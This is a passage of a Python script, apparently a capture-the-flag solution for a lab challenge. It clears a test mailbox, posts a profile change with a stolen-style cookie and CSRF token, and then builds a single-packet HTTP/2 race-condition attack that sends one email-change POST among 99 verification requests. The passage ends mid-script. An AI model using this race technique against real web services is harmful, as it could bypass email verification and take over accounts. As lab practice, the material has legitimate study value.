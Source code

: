 ```python
    urlDeleteMails = "https://"+host+":"+str(puerto)+"/email/deleteall/"

    responseDeleteMails = requests.get(urlDeleteMails, verify=False)
    #print(response.text)
    # change this host name to new generated one
    
    Headers = { "Cookie" : cookie, "content-type": "application/x-www-form-urlencoded" }
    data="email=test%40email.htb&username=estes&fullName=test&antiCSRFToken="+CSRF
    urlReset="https://"+host+":"+str(puerto)+"/challenge/api/profile"
    responseReset = requests.post(urlReset, data=data, headers=Headers, verify=False)
    
    print(responseReset.status_code)
    
    h2_conn = H2OnTlsConnection(
        hostname=host,
        port_number=puerto
    )

    h2_conn.setup_connection()

    try_num = 100

    stream_ids_list = h2_conn.generate_stream_ids(number_of_streams=try_num)

    all_headers_frames = []  # all headers frame + data frames which have not the last byte
    all_data_frames = []  # all data frames which contain the last byte


    for i in range(0, try_num):
        last_data_frame_with_last_byte=''
        if i == try_num/2:
            header_frames_without_last_byte, last_data_frame_with_last_byte = h2_conn.create_single_packet_http2_post_request_frames(  # noqa: E501
                method='POST',
                headers_string=headersObjetivo,
                scheme='https',
                stream_id=stream_ids_list[i],
                authority=host,
                body=bodyObjetivo,
                path='/challenge/api/profile'
            )
        else:
            header_frames_without_last_byte, last_data_frame_with_last_byte = h2_conn.create_single_packet_http2_post_request_frames(  
                method='GET',
                headers_string=headersVerification,
                scheme='https',
                stream_id=stream_ids_list[i],
                authority=host,
                body=".",
                path='/challenge/api/sendVerification'
            )

        all_headers_frames.append(header_frames_without_last_byte)
        all_data_frames.append(last_data_frame_with_last_byte)


    # concatenate all headers bytes
    temp_headers_bytes = b''
    for h in all_headers_frames:
        temp_headers_bytes += bytes(h)

    # concatenate all data frames which have last byte
```